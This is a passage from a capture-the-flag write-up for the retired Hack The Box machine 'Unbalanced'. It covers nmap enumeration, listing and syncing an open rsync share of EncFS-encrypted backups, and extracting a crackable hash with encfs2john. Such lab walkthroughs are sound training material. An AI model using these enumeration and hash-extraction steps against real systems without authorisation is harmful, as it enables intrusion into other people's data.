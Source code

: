 # Unbalanced

This is the write-up for the box Unbalanced that got retired at the 5th December 2020.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.200    unbalanced.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/unbalanced.nmap 10.10.10.200
```

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a2:76:5c:b0:88:6f:9e:62:e8:83:51:e7:cf:bf:2d:f2 (RSA)
|   256 d0:65:fb:f6:3e:11:b1:d6:e6:f7:5e:c0:15:0c:0a:77 (ECDSA)
|_  256 5e:2b:93:59:1d:49:28:8d:43:2c:c1:f7:e3:37:0f:83 (ED25519)
873/tcp  open  rsync      (protocol version 31)
3128/tcp open  http-proxy Squid http proxy 4.6
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking Rsync (Port 873)

The protocol **rsync** is used to synchronize files between devices and connections can be checked with the `rsync` command:
```
rsync rsync://10.10.10.200

conf_backups    EncFS-encrypted configuration backups
```

There is a directory _conf_backups_ that can be synchronized to our client:
```
rsync -av rsync://10.10.10.200/conf_backups conf_backups
```

It consists of 75 different files with cryptic file names and 1 hidden file called _.encfs6.xml_.
Only the file _.encfs6.xml_ is readable and it describes how the files are encrypted:
```
<creator>EncFS 1.9.5</creator>
(...)
```

The files are encrypted with **EncFS** and a hash to crack can be created with **encfs2john**:
```
encfs2john.py conf_backups/

conf_backups/:$encfs$192*580280*0*20*99176a6e4d96c0b32bad9d4feb3d8e425165f105*44*1b2a580dea6cda1aedd96d0b72f43de132b239f51c224852030dfe8892da2cad329edc006815a3e84b887add
```
